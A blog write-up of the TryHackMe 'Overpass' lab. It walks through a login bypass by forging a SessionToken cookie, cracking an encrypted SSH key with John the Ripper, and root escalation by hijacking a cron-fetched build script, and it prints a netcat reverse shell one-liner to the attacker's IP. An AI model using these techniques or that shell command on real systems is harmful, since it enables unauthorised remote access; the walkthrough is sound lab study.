 ```yaml
---
layout: post
author: pr0rat
title: "TryHackMe - Overpass"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/overpass.webp
categories: [Tryhackme, Easy]
tags: [cronjobs, cookies, web, john the ripper, ssh]
---
```


| Room       | [Overpass](https://tryhackme.com/room/overpass)            |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |

> description: What happens when some broke CompSci students make a password manager? I guess we are about to find out.

This write up explains my approach towards solving overpass a tryhackme machine was testing on a bit of OWASP top 10, john and cron jobs.

## Let's begin
First we start with nmap scan using the command `sudo nmap -A -sV -T4 [target IP] -oN nmap.txt`. We find that only two ports are open, `22` and `80`. We know that port `22` runs SSH right? and port `80` is always http.
![image](/assets/img/Posts/overpass/nmap_overpass.webp)

So i went on and opened my browser and visited the website that is running on the machine at port `80` just by pasting the IP in the url tab.
![image](/assets/img/Posts/overpass/welcome_overpass.webp)
Navigating through the web, i found nothing juicy that i could use against the machine. So i went on and tried to scan for any hidden the directories using gobuster and found an /admin directory, wow!!
```bash
gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog
```
<!--![image](/assets/img/Posts/overpass/gobusteroverpass.webp)-->
we found a login for the admin user but we don’t have any hint on the username or password so far, what now? checking the code? yes, i found a javascript file `login.js`
![image](/assets/img/Posts/overpass/scripts_overpass.webp)

Going through its code, in the very bottom i saw a `login` function which seemed vulnerable and indeed it was. The if condition was checking for the valid credential. If incorrect, it was outputting `Incorrect Credentials`, but if correct, it was setting a Cookie named `SessionToken` and redirecting the user to `/admin`. I wondered if the server was actually validating the cookie and we can utilize that to our benefit by setting any cookie value and hopefully work.
![image](/assets/img/Posts/overpass/vulncode_overpass.webp)

So, there are to ways we can go about this,
First one is, we need to open the developer’s tools by right-clicking on the page and clicking the `inspect` option then we go to `storage` and choose `cookies` and press the `+` at the top right corner and change the name to `SessionToken` and the path to `/`

And the second is opening the console and and setting the cookie

```js
Cookies.set(“SessionToken”, 200)
```
When you are done, you reload the page and boom!!! you have the RSA key for user james as it is mentioned in the text.
![image](/assets/img/Posts/overpass/sshkey.webp)
![image](/assets/img/Posts/overpass/sshkey1.webp)

Copied the key and saved it in my host machine and don’t forget it is encrypted. So we use ss2john to convert it

```bash
ssh2john jamesid > james_id
```

and then crack the password

```bash
john james_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt
```
We get the passphrase and to login to the ssh account
![image](/assets/img/Posts/overpass/ssh2john_ovepass.webp)
## user flag
It is is right in the home directory, all you have to do is cat the user.txt file
```bash
cat user.txt
```

## root flag
To get the root flag we should become root user. How? lets see if there is something we can exploit to escalate our privileges

### privilege escalation

I decided to use linpeas (a linux privilege escalation automated script) from this page. i had to get it to the target machine from my host machine. So, i started server in my machine and used wget command in the target machine to download the file from my server

We change its mode to executable 
```bash
chmod +x linpeas.sh
```
and then execute it `./linpeas.sh`

and going through the log or the findings, the cron jobs section caught my eye. it looks like the machine is executing the buildscript.sh from the overpass.thm domain as root…really interesting!!!!!!

So we can change and imitate the directory to the script and change its contents to a reverse shell command and get the shell as root…woow!!.

lets get to it right away
![image](/assets/img/Posts/overpass/crontab_overpass.webp)
From that point, i simulated the `overpass.thm/downloads/src/buildscript.sh` by creating the directory `downloads` and within it, i created `src` and finally created the `buildscript.sh` file and placed a one liner reverse shell netcat command

```bash
mkdir downloads

cd downloads

mkdir src

cd src

nano buildscript.sh

and paste the netcat command in the created file

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <yourIP> 1234 >/tmp/f
```
make it executable
```bash
chmod +x buildscript.sh
```
and started a python server from the base directory where the the downloads dir is located `sudo python3 -m http.server 80`
and in the target machine i added my IP to the /etc/hosts file and with the domain overpass.thm
![image](/assets/img/Posts/overpass/target_hosts_file.webp)
we listen to port specified in the reverse shell command and patiently waited for the connection from the remote machine as root. yes!!!! we got the connection as root!!!

to get the flag
```bash
cat root.txt
```
![image](/assets/img/Posts/overpass/root_overpass.webp)

hope you enjoyed the write up!!. thank you 😁